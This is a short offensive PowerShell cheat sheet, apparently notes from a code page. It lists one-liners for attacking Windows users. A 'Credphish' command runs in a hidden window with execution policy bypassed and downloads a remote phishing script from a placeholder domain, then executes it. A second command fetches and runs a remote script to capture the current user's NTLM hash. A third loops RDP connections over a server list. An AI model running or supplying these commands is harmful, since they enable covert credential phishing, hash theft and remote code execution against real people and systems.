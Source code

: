 
Credphish:  
```powershell -ep bypass -WindowStyle hidden -c "Invoke-WebRequest -URI 'https://<domain>.com/phish.ps1'|iex"```

Get NTLM-hash of current user:  
```powershell -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('https://github.com/elnerd/Get-NetNTLM/raw/master/Get-NetNTLM.ps1'); Get-NetNTLM-Hash"```


Iterate over file containg RDP servers:
gc "your_file.txt" | %{Start-Process mstsc -ArgumentList "/v:$_" -Wait; Start-Sleep -s 1}

